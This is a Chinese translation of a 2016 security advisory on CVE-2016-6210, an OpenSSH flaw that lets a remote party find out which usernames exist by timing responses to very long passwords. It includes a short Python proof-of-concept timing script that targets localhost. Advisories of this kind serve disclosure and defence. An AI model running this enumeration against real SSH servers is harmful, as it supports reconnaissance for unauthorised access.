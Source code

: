 > 原文链接: https://www.anquanke.com//post/id/84232 


# OpenSSHD用户枚举漏洞


                                阅读量   
                                **91616**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：360安全播报
                                <br>原文地址：[http://seclists.org/fulldisclosure/2016/Jul/51](http://seclists.org/fulldisclosure/2016/Jul/51)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p2.ssl.qhimg.com/t018f521842a855bf09.png)](https://p2.ssl.qhimg.com/t018f521842a855bf09.png)

**摘要:**

**通过发送一个长密码,一个远程用户可以枚举在系统上运行SSHD的用户。**

**这个问题存在于大多数的现代配置中,因为相比于计算BLOWFISH哈希散列,需要更长的时间来计算SHA256 / SHA512。******

**CVE-ID:CVE-2016-6210**********

**<br>**

**测试的版本:**

这个问题在版本opensshd – 7.2 – p2(也应该在更早期的版本上进行测试)上进行了测试。

**<br>**

**修复:**

这个问题被OPENSSH的开发小组报道,而且他们已经开发出了一个修复补丁(不过目前还不知道这个补丁是否发布)。(特别感谢'dtucker () zip com au'的快速回复和解决建议)。

**<br>**

**详细信息:**

当SSHD试图验证一个不存在的用户时,它会进入一个硬编码在SSHD源代码中的假密码结构。在这个硬编码的密码结构中密码的哈希计算基于BLOWFISH 算法。如果是一个真实的有效用户密码,则会使用SHA256 / SHA512进行哈希计算。由于计算SHA256 / SHA512哈希比计算BLOWFISH哈希耗时要长,所以如果发送的密码大于10KB,将会导致相比于不存在的用户来说收到来自服务器的响应会存在一个时间差。

**<br>**

**示例代码:**



```
import paramiko
import time
user=raw_input("user: ")
p='A'*25000
ssh = paramiko.SSHClient()
starttime=time.clock()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
try:
        ssh.connect('127.0.0.1', username=user,
        password=p)
except:
        endtime=time.clock()
total=endtime-starttime
print(total)
```

(有效的用户将会需要更高的总时间)。

请注意,如果SSHD配置禁止root登录,那么root就不被视为有效的用户…

如果启用了TCP时间戳选项,那么度量时间的最佳方法是使用来自服务器的TCP数据包的时间戳,因为这将会消除任何网络延迟。
